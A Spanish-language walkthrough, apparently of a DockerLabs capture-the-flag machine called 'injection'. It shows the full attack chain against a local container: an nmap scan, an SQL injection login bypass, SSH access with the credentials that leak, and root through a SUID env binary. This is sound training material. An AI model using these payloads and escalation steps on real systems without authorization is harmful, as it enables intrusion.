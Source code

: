 ### Primero debemos iniciar la maquina
```
bash auto_deploy.sh injection.tar
```
[![parrot-2024-09-09-14-36-53.png](https://i.postimg.cc/fL5vY4Tj/parrot-2024-09-09-14-36-53.png)](https://postimg.cc/7GG7yWzf)

### vemos la ip despues usaremos PING para cpmprobar si la maquina esta encendida
```
ping -c3 172.17.0.2
```
[![parrot-2024-09-09-14-37-29.png](https://i.postimg.cc/k5zggsSJ/parrot-2024-09-09-14-37-29.png)](https://postimg.cc/gwyWMv4Q)

### vemos que tenemos respuesta entonces usaremos nmap para verificar si tenemos puertos abiertos
```
nmap -p- --open -sS --min-rate 5000 -n -Pn -sCV -oG ports 172.17.0.2
```
[![parrot-2024-09-09-14-39-54.png](https://i.postimg.cc/XJx3ygGB/parrot-2024-09-09-14-39-54.png)](https://postimg.cc/k6VL0Ky7)

### vemos que tenemos un puerto 22 y 80 abierto si buscamos la ip en el navegador vemos esto
[![parrot-2024-09-09-14-40-34.png](https://i.postimg.cc/k5GXFzCF/parrot-2024-09-09-14-40-34.png)](https://postimg.cc/ns8JndCC)

### podemos usar una vulnerabilidad llamada SQL injection te recomendaria ver este video de El Pingüino de Mario sobre sql injection 
link:https://youtu.be/qLeeLRn9Z78?si=_NMsnmuImTGw72c9
```
' or 1=1-- -
```
[![parrot-2024-09-09-14-41-00.png](https://i.postimg.cc/zfH4NY1f/parrot-2024-09-09-14-41-00.png)](https://postimg.cc/8FDZd3c8)

### le damos enter y vemos esto
[![parrot-2024-09-09-14-41-11.png](https://i.postimg.cc/m2bYW3Gz/parrot-2024-09-09-14-41-11.png)](https://postimg.cc/PNRpmwJT)

### nos da un usuario y su contraseña recuerdas el puerto ssh si problamos las credenciales vemos que podemos acceder
```
ssh dylan@172.17.0.2
```
[![parrot-2024-09-09-16-22-51.png](https://i.postimg.cc/wBGSNT9H/parrot-2024-09-09-16-22-51.png)](https://postimg.cc/Tyn7MxyH)

### vemos que las credenciales son validas asi que haremos una escalada de privilegios con binarios
```
find / -perm -4000 2>/dev/null
```
[![parrot-2024-09-09-14-44-19.png](https://i.postimg.cc/vmYP31Qf/parrot-2024-09-09-14-44-19.png)](https://postimg.cc/CR2HKxnx)

## vemos env asi que usaremos este comando para elevar privilegios 
```
/usr/bin/env /bin/sh -p
```
[![parrot-2024-09-09-14-48-15.png](https://i.postimg.cc/XvBg29RZ/parrot-2024-09-09-14-48-15.png)](https://postimg.cc/wtHJMRTH)
